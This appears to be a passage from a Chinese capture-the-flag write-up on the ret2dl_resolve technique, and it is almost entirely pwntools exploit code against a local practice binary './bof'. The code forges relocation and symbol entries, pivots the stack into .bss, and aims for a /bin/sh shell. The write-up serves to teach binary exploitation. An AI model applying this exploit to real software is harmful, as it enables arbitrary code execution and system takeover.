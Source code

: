 ```python
align=0x10-((fake_sym_addr-SYMTAB)&0xf)
fake_sym_addr=fake_sym_addr+align
r_info=((fake_sym_addr-SYMTAB)/0x10<<8)|0x7
fake_rel=p32(write_got)+p32(r_info)

st_name=0x54
fake_sym=p32(st_name)+p32(0)+p32(0)+p32(0x12)

payload2='aaaa'
payload2+=p32(plt_start)
payload2+=p32(rel_offset)
payload2+='dead'
payload2+=p32(1)
payload2+=p32(binsh_addr)
payload2+=p32(len(cmd))
payload2+=fake_rel
payload2+='c'*align
payload2+=fake_sym
payload2=payload2.ljust(80,'d')
payload2+=cmd
payload2=payload2.ljust(100,'d')

io.recvuntil('2015~!')
io.sendline(payload1)
sleep(1)
io.sendline(payload2)

io.interactive()
```

### stage5

st_name指向伪造的字符串'write'

```python
from pwn import *

io=process('./bof')
elf=ELF('./bof')
context.log_level='debug'

write_plt=elf.plt['write']
read_plt=elf.plt['read']
write_got=elf.got['write']
bss_addr=elf.bss()

stack_size=0x800
base_stage=bss_addr+stack_size

p_p_p_ret=0x0804856c
leave_ret=0x08048481
pop_ebp_ret=0x08048453

payload1='a'*112
payload1+=p32(read_plt)
payload1+=p32(p_p_p_ret)
payload1+=p32(0)
payload1+=p32(base_stage)
payload1+=p32(100)
payload1+=p32(pop_ebp_ret)
payload1+=p32(base_stage)
payload1+=p32(leave_ret)

JMPREL=0x8048318
```